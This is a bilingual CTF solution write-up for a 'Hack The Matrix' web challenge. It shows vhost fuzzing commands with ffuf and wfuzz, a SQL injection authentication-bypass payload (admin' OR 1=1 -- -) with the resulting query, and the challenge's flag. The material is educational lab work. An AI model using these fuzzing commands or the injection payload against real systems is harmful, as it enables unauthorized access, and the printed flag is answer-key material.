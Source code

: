 # Solution - Hack The Matrix

## Solution (Français)

Ce challenge comporte deux étapes principales:

### Étape 1: Découverte du sous-domaine caché

Le domaine principal metacortex.poly ne contient pas directement le flag. Il faut découvrir qu'il existe un sous-domaine caché. En utilisant des techniques de fuzzing de vhost, on peut découvrir le sous-domaine secret.metacortex.poly.

Commande avec ffuf:
ffuf -w /path/to/subdomains.txt -u http://metacortex.poly -H "Host: FUZZ.metacortex.poly" -fw <nombre_de_mots_page_normale>

Ou avec wfuzz:
wfuzz -c -w /path/to/subdomains.txt -H "Host: FUZZ.metacortex.poly" http://metacortex.poly

### Étape 2: Exploitation de l'injection SQL

Une fois le sous-domaine secret.metacortex.poly découvert, on trouve une page de connexion. Cette page est vulnérable à une injection SQL.

Pour contourner l'authentification, on peut utiliser la payload suivante dans le champ username:
admin' OR 1=1 -- -

Le mot de passe peut être n'importe quoi, car la partie -- - commente le reste de la requête SQL.

La requête SQL devient alors:
SELECT * FROM users WHERE username='admin' OR 1=1 -- -' AND password='peu_importe'

Cela permet de se connecter et d'obtenir le flag: polycyber{SQL_1nj3ct10n_1s_fun}

## Solution (English)

This challenge consists of two main steps:

### Step 1: Discovering the Hidden Subdomain

The main domain metacortex.poly doesn't directly contain the flag. You need to discover that there's a hidden subdomain. Using vhost fuzzing techniques, you can discover the subdomain secret.metacortex.poly.

Command with ffuf:
ffuf -w /path/to/subdomains.txt -u http://metacortex.poly -H "Host: FUZZ.metacortex.poly" -fw <normal_page_word_count>

Or with wfuzz:
wfuzz -c -w /path/to/subdomains.txt -H "Host: FUZZ.metacortex.poly" http://metacortex.poly

### Step 2: SQL Injection Exploitation

Once the subdomain secret.metacortex.poly is discovered, you'll find a login page. This page is vulnerable to SQL injection.

To bypass authentication, you can use the following payload in the username field:
admin' OR 1=1 -- -

The password can be anything, as the -- - part comments out the rest of the SQL query.

The SQL query becomes:
SELECT * FROM users WHERE username='admin' OR 1=1 -- -' AND password='whatever'

This allows you to log in and obtain the flag: polycyber{SQL_1nj3ct10n_1s_fun}
